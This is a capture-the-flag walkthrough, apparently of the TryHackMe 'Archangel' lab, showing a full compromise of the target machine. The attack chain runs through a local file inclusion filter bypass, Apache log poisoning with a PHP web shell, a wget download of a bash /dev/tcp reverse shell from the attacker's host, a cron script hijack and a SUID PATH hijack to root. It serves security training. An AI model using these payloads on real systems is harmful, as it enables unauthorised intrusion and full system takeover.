




# Nmap: 
---
```bash
nmap -A -T4 -p 22,80 10.114.179.230 -v -oN nmap
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- lets look at the `web server`

# Web server: 
---


- if we look at the `e-mail` address, we can see the domain: `mafialive.thm` 
- this is the answer for the first task 
- lets add this domain to `/etc/hosts` file, so we can access that domain: 



- if we open up `http://mafialive.thm`, in our Browser, we find the answer to the second task
- now we have to search for `a page under development`
- I will use `gobuster` to scan the `web server`: 
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://mafialive.thm -x php,txt,html -o gobuster/first_enum
```

```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htaccess.php        (Status: 403) [Size: 278]
.hta.php             (Status: 403) [Size: 278]
.htaccess            (Status: 403) [Size: 278]
.hta.html            (Status: 403) [Size: 278]
.hta                 (Status: 403) [Size: 278]
.hta.txt             (Status: 403) [Size: 278]
.htaccess.txt        (Status: 403) [Size: 278]
.htaccess.html       (Status: 403) [Size: 278]
.htpasswd            (Status: 403) [Size: 278]
.htpasswd.php        (Status: 403) [Size: 278]
.htpasswd.html       (Status: 403) [Size: 278]
.htpasswd.txt        (Status: 403) [Size: 278]
index.html           (Status: 200) [Size: 59]
index.html           (Status: 200) [Size: 59]
robots.txt           (Status: 200) [Size: 34]
robots.txt           (Status: 200) [Size: 34]
server-status        (Status: 403) [Size: 278]
test.php             (Status: 200) [Size: 286]
```

- `test.php` looks pretty interesting and is the answer to the third task 
- lets navigate to the file

# PHP Wrapper: 
---



- when we press the button the `URL` changes to: 
```http
http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
```

- and the text: `Control is an illusion` gets displayed 
- so there is a `GET` parameter called `view` that stores a path to a `.php` file, that stores this text: `Control is an illusion` 
- because `test.php` is a `.php` file we could try to use a `PHP Wrapper` to display the contents of the file: 
```bash
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php 
```

- when we enter this `URL` we get the `base64` encoded contents of the file and it looks like this: 
```php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{<Redacted>}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```

- here we can find the second flag and get an understanding on how the filter works
- the filter checks if the path contains `/var/www/html/development_testing` and doesn't include `../..` 
- so we can try to use `..//..` instead
# LFI: 
---

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```



- lets use `ffuf` to get a list of all the local files that we can access: 
```bash
ffuf -w ../../Tools/LFI-WordList-Linux.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../FUZZ -fs 286
```

- I downloaded the wordlist from [here](https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux)

```bash
...
/var/log/apache2/error.log [Status: 200, Size: 1539508, Words: 147108, Lines: 8010, Duration: 42ms]
/var/log/apache2/access.log [Status: 200, Size: 4657174, Words: 487025, Lines: 43959, Duration: 68ms]
...
```

- these were the most interesting ones, because due to the fact that the log files for the `web server` are readable we can try to use `log poisoning` to create a `web shell`   

# Web shell: 
---
- to do `log poisoning` we have to send a request to the server where we put a php `web shell` in one of the header values, for example `User-Agent` or `Referer`
- I personally used `BurpSuite` for this but you could also use `netcat`: 

```http
GET /test.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

- after we send the request, it gets logged and saved into `access.log` and now we can access the `cmd` parameter and use it as a `web shell`: 
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=wget%20http://192.168.131.165:8000
```

- I used the `wget` command to send a request to my local `web server` (`python -m http.server`) to verify that the `web shell` works and it indeed did 
- to get a `reverse shell` I created a `shell.sh`: 
```bash
/bin/bash -i >& /dev/tcp/192.168.131.165/1234 0>&1
```

- then I started a `web server` locally with: `python3 -m http.server` and used `wget` again so that the `shell.sh` gets downloaded on the target machine: 
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=wget http://192.168.131.165:8000/shell.sh
```

- afterwards I started a listener with `netcat` on the port in the `shell.sh`: 
```bash
nc -lnvp 1234
```

- and changed the `URL` to: 
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=bash shell.sh
```

- to get the `reverse shell` 

# user flags: 
---
- the first user flag can be found in the home directory of `archangel`: 
```bash
thm{<Redacted>}
```

- to progress further we have to become the user `archangel` 
- when we cat out `/etc/crontab`, we can see this: 
```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

- we can see that the `helloworld.sh` script gets executed every minute with the permissions of `archangel` 
- lets move to the `opt` directory and look if we can tamper with the file

```bash
www-data@ubuntu:/opt$ ls -la helloworld.sh
-rwxrwxrwx 1 archangel archangel 117 Jul 11 03:42 helloworld.sh
```
- as you can see, has the file the permissions `777` so we can edit it
- so lets create another `reverse shell`

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.131.165/1235 0>&1" >> helloworld.sh 	
```

- don't forget to setup a new listener with `netcat` for this connection 
- after waiting a little bit we get a connection and are `archangel`

- in `/home/archangel/secret` we can find the second user flag: 
```bash
thm{<Redacted>}
```

# root.txt: 
---
- in the same directory (`/home/archangel/secret`) is a executable, named `backup`, that is owned by `root` and has the `SUID` bit set 
- lets check out the executable with the command `strings`, because its possible that we can find a `command` that gets executed within that script, that we can abuse 

```bash
archangel@ubuntu:~/secret$ strings backup
/lib64/ld-linux-x86-64.so.2
setuid
system
__cxa_finalize
setgid
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles
:*3$"
GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0
/usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/Scrt1.o
...
```

- we can see that the command `cp` get used to copy files: `cp /home/user/archangel/myfiles/* /opt/backupfiles` 
- lets try to create a new `cp` in the `/tmp` dir and updating the `PATH` variable to get `root shell` 

```bash
archangel@ubuntu:/tmp$ echo "/bin/bash" > cp
archangel@ubuntu:/tmp$ chmod +x cp
archangel@ubuntu:/tmp$ export PATH=/tmp:$PATH 
```

- we can now execute the `backup` script: 
```bash
archangel@ubuntu:~/secret$ ./backup
root@ubuntu:~/secret# id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
```

- and we are `root`: 
```bash
thm{<Redcated>}
```
